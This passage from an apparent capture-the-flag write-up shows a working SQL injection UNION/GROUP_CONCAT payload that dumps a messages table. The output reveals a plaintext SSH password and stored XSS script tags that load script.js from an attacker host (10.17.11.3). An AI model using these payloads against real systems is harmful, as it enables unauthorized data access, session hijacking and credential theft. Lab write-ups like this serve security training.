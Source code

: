 So we found tables like `items,messages,users,` and differents columns of these tables.
So we might have to read messages.
Lets try reading it using `group_concat()`.
So we have to read `message_content`, `user_from` and `user_to` .

```SQL
14 UNION SELECT 1,GROUP_CONCAT(user_from, '->', user_to, ':', message_content SEPARATOR ' | '),3,4 FROM messages;-- -
```
Lets see how it works.
And we got something.
![](Pasted%20image%2020250318172059.png)

Hmmm.
```Q
User 1->3:Hello! An automated system has detected your SSH password is too weak and needs to be changed. You have been generated a new temporary password. Your new password is: @b_ENXkGYUCAv3zJ | 4->4:<script>alert(0)<script> | 1->4:Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace! | 1->4:Thank you for your report. We have been unable to review the listing at this time. Something may be blocking our ability to view it, such as alert boxes, which are blocked in our employee's browsers. | 4->4:<script src="http://10.17.11.3/script.js"></script> | 4->2:<script src="http://10.17.11.3/script.js"></script> | 4->2:<script src="http://10.17.11.3/script.js"></script> | 4->4:<script src="http://10.17.11.3/script.js"></script> | 1->4:Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private
```

So we got the password.
`@b_ENXkGYUCAv3zJ`

Lets see in which user we can connect the ssh on.
We have there users.
![](Pasted%20image%2020250318172421.png)
